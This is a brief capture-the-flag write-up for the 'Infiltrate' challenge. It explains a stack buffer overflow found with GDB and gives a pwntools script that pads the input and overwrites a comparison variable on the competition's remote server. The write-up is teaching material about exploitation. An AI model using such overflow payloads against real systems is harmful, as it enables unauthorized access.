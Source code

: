 # Infiltrate

> We are a security organization and our agents are given unique usernames that are impossible to guess. We have recently built a very secure inventory. If you are one of our agents, we have a package ready for you!

Using GDB, take a look at `main()` function. It sets **rbp-0x4** = *0xbaadc0de*, and then compares it to *0xdefec8ed*. The input starts from **rbp-0x30**. Clearly a buffer overflow vulnerability

```python
from pwn import *

p = remote('infiltrate.2024-bq.ctfcompetition.com',1337)
p.recvuntil(b'Username please: ')

offset = 0x30-4
payload = b'a'*offset + p32(0xdefec8ed)
p.sendline(payload)
p.interactive()
```
